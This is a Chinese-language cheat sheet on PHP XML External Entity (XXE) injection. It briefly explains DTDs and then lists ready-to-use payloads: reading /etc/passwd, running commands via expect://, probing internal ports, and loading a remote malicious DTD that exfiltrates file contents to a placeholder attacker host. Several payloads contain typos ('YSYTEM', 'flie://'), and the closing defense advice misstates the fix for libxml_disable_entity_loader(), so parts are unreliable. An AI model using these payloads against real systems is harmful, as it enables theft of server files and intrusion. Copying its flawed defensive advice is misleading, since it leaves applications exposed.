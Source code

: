 



### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束  
将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml声明
<!DOCTYPE evil[ #内部DTD 文档类型定义
    <!ELEMENT evil ANY> #声明约束元素，内容随意
    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
]>
<test>  #文档元素
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### 基础payload整理

```xml-dtd
#文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT a ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<a>
    <name>&xxe;</name>
</a>


#命令执行，需要expect扩展
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>

#内网探测
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
<root>
<name>&xxe;</name>
</root>

#远程加载恶意dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
%pe;
%param1;
]>
<foo>&external;</foo>
#evil.dtd
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">

<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

#php filter文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>
```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0  
过滤用户提交的XML数据


